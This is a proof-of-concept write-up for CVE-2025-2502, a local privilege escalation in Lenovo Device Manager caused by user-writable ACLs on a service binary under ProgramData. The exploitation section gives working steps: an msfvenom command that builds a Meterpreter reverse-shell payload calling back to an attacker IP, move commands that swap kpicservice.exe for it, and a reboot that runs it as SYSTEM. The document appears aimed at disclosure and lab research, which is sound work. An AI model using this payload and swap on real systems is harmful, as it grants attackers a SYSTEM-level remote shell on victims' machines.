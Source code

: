 # CVE-2025-2502 — Lenovo Device Manager: Local Privilege Escalation (POC)

## Vulnerability Overview

While studying local privilege escalation techniques in a Windows lab, I installed Lenovo Device Manager to inspect its installed components. Browsing the ProgramData modules out of curiosity, I noticed oddly permissive ACLs on the module directories — files downloaded by the application were writable by standard users.

That raised a red flag: if a service binary stored in such a directory runs as LocalSystem, and a non-privileged user can alter the file content, a simple replace-and-reboot could make the service execute attacker-controlled code as SYSTEM.

## Vulnerability technical Overview

A permissions flaw in Lenovo Device Manager (all versions observed) grants non-privileged users **F (Full) control** over downloaded tool binaries under `C:\ProgramData\Lenovo\devicecenter\modules\…`. A privileged service (`KPICService_Lenovo`) loads one such binary as LocalSystem; because an unprivileged user can replace that binary on disk, the service will start the replaced binary as SYSTEM after a reboot — enabling local privilege escalation.

![Vulnerability Overview](https://github.com/user-attachments/assets/b93b76b1-f2f2-436f-a5dd-72f4248600af)

## Lab Setup & Reproduction

### 1. Setup Lab Environment

- Host a Windows VM and take a snapshot
- Install Lenovo Device Manager and the AI Picture plugin (vulnerable version)
- Ensure the VM is isolated from production networks

![Lab Setup](https://github.com/user-attachments/assets/9fcdeeaf-3600-4dc7-b646-6e7e8bc78c5a)

### 2. Confirm Service & Permissions

Inspect the service configuration and file permissions:

**Service Location:**

%ProgramData%\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe


![Service Configuration](https://github.com/user-attachments/assets/ef41db4c-c148-4512-ad15-a8eb82d14427)

![File Permissions](https://github.com/user-attachments/assets/e33ef6fe-910d-48cc-beab-0f4d2f841f6e)

### 3. Validate

With the system booted into a state where the service process is locked, confirm an unprivileged account can move or rename the original `kpicservice.exe` file.

<img width="803" height="148" alt="image" src="https://github.com/user-attachments/assets/96afd83f-22ce-4ed9-be10-1acef9a914ac" />

## Practical Exploitation Steps

### Generate Payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.133 LPORT=4444 -f exe -o kpicservice.exe
```
# Move original file
```bash
move C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe kpicservice.exe.backup
```
# Replace with payload
```bash
move Desktop\kpicservice.exe C:\ProgramData\Lenovo\devicecenter\modules\aipicture\5.1.80.8121\kpicservice.exe
```
### Trigger Exploitation
Reboot the device

The service automatically starts the replaced kpicservice.exe (payload)

Obtain SYSTEM privileges

<img width="921" height="677" alt="image" src="https://github.com/user-attachments/assets/56ba6c54-af25-449a-8b2e-aec7add0a96e" />

